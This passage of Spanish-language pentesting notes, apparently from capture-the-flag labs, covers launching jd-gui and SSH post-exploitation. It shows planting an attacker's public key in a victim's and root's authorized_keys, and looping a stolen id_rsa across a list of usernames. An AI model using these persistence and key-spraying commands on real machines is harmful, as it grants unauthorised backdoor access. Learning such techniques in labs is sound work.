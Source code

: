 ```
sudo apt install jd-gui

jd-gui 

```

## SSH

Para poder usar la llave privada que tu mismo creaste has lo siguiente:

```
### Kali
ssh-keygen

```

Eso crea la llave publica y privada ahora pon la llave publica en el directorio authorized_keys en la maquina victima

```
cat id_ed25519.pub | tr -d '\n' | xclip -sel clip
```

Finalmente en la maquina target

```
cd .ssh
 echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QQ7IaxiVdTpsg5U19G3d nobody@nothing" >> authorized_keys

ssh -i id_rsa strapi@10.10.14.57 
```

Probar usuarios de ssh ya cuando tienes una id_rsa

```

for i in $(cat u.txt); do ssh -oBatchMode=yes -i id_rsa $i@10.129.242.42; done

```

## Si no esta la carpeta .ssh de root creala

Si no se encuntra tu puedes crearla

```
chmod 700 /root/.ssh
touch /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
pwd      

echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTEQ/7hn6SuJDX5+bl6tk/ kai@kai" > authorized_keys 
```


### SSH config
